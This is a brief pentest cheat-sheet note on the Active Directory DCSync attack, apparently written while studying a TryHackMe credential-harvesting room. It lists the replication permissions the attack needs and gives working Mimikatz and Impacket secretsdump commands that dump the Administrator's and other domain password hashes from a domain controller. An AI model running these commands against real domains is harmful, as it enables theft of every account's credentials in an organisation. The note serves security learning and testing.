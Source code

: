 # Active Directory DCSync Attacks

DC-Sync attack is direct attack on the DC from an account with necessary permissions to force the DC to Synchronise itself with another existent or non-existent -  permissions required:
- `ReplicatingDirectory Changes`
- `ReplicatingDirectory Changes All`
- `Replicating Directory Changes in Filtered Set`

[[Mimikatz-Cheatsheet]]
```powershell
.\mimikatz.exe
lsadump::dcsync /user:$domain\Administrator
```

With [[Impacket-Cheatsheet]]
```bash
secretsdump -just-dc $domain/$user@$DCipAddress
# For just ntlms 
-just-dc-ntlm 
```
## References

[DC-Sync](https://tryhackme.com/room/credharvesting)